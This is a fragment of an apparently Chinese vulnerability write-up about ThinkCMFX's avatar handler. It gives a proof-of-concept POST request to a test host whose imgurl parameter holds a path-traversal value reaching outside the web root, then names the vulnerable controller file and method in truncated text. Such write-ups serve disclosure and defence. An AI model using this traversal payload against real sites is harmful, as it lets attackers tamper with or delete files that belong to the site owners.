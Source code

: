 ```
url：http://thinkcmf.test/index.php?g=User&m=Profile&a=do_avatar
post:
mgurl=..\..\..\..\..\1.txt 
```

![image](../img/080333cbe80c4239ef18a7dfa8bede95.png)

#### 0x03.2 漏洞原理

路径：ThinkCMFX\application\User\Controller\ProfileController.class.php
方法：blic function do_avatar(

![image](../img/d0106ff5bd71b65216552ac4fb6914b6.png)
